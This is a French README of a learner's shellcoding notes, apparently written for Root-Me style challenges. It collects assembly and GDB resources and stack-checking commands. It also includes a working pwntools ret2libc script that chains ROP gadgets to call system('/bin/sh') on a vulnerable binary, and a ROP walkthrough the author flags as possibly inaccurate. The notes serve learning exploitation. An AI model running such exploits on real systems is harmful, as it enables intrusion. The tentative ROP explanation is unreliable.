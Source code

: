 # Petit readme où j'étale les ressources et réflexions utilisées au fur et à mesure de mon apprentissage des bases du shellcoding 
Je n'ai aucune compétence préliminaire en assembleur, les codes de mes mains sont donc particulièrement moches et surement peu logiques.


## introduction au shellcoding avec pile executable
[Conférence @VoydStack - Writing Shellcodes for dummies](https://www.youtube.com/watch?v=zxhQevqX_7w&t=1288s&ab_channel=Root-Me)

[https://nehalzaman.medium.com](https://nehalzaman.medium.com/an-executable-stack-247ctf-f863a2fd5f3f)


## compilation et extraction d'un shellcode simple en assembleur
[compile.sh](./compile.sh)

## premier challenge de shellcoding rootme 

## RESSOURCES assembleur x64

[Assembly Language & Computer Architecture Lecture (CS 301)](https://www.cs.uaf.edu/2017/fall/cs301/lecture/09_11_registers.html)

[misc/syscalls64.md · Hackndo](https://github.com/Hackndo/misc/blob/master/syscalls64.md)

[gdb.pdf](https://web.cecs.pdx.edu/~apt/cs510comp/gdb.pdf)

[Debugging assembly with GDB – ncona.com – Learning about computers](https://ncona.com/2019/12/debugging-assembly-with-gdb/)

[x64_cheatsheet.pdf](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)

## tester si la pile est executable

### utilitaire checksec
```{bash}
checksec --file <chemin>
```

### bash plus commun
recherche de GNU_STACK dans le header
```{bash}
readelf -l <chemin> 
```
## BYPASS DE NX et ASLR en utilisant ret2libc et des ROP

[www.trustwave.com](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/babys-first-nxplusaslr-bypass/)

La librairie 'struct' et de l'huile de coude pour trouver et mettre sous forme de shellcode les bonnes adresses mais la librairie 'pwtools' peut aider à cela :

```{python}
from pwn import *

# Configuration de la connexion au binaire vulnérable
context.binary = './vulnerable_program'
elf = ELF('./vulnerable_program')
libc = elf.libc

# Trouver l'offset du dépassement de tampon
offset = 64

# Trouver les gadgets ROP
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

# Adresse de la fonction system() dans libc
system_addr = libc.symbols['system']

# Adresse de la chaîne "/bin/sh" dans libc
bin_sh_addr = next(libc.search(b'/bin/sh'))

# Construire le payload
payload = b'A' * offset
payload += p64(pop_rdi)
payload += p64(bin_sh_addr)
payload += p64(ret)
payload += p64(system_addr)

# Envoyer le payload au programme vulnérable
p = process('./vulnerable_program')
p.sendline(payload)
p.interactive()
```



### exemple de ROP :

#### /!\ il s'agit de comment j'ai déduit le fonctionnement du shellcode exposé sur le site. Il est probable que cela ne soit absolument pas le reflet de la réalité.

l'instruction pop-pop-ret après strcpy

AVANT STRCPY:
strcpy@plt <- EIP, adresse de retour originale écrasée par buffer overflow
pop-pop-ret@ROP
dst (bss)
src (adresse du char 's')


PILE DURANT STRCPY :
ret addr (push par call strcpy) <- EIP (pointe en fait sur le ROP car le shellcode continue dans la pile)
pop-pop-ret@ROP
dst (bss)
src
reste du shellcode stoqué dans la pile...

PILE APRES STRCPY (ret dans strcpy dépile la tete de pile) :
pop-pop-ret@ROP <- EIP
dst
src
reste du shellcode ...

/!\ sans le ROP, on aurait EIP qui pointe sur dst (suite logique du programme du shellcode), et ferait crash le programme

PILE APRES ROP :
reste du sellcode instruction 1 (prochain strcpy ) <- EIP 
(dépilé dans EIP mais pour l'image on laisse dans la pile)
reste du shellcode ...

> d'après ce que j'ai compris, la convention d'appel cdecl, qui est utilisée par défaut en C sous Linux/x86 fait que les arguments de la fonction ne sont pas dépilés quand utilisés mais lus grâce à sp (sp+4 et sp+8 pour strcpy). Il incombe dont au code après l'instruction ret de la fonction appelée de dépiler les arguments. 


## misc
on peut avoir quelques infos sur l'executable avec l'utilitaire file. Si l'executable est compilé sans être stripped, il va contenir des infos de debugage.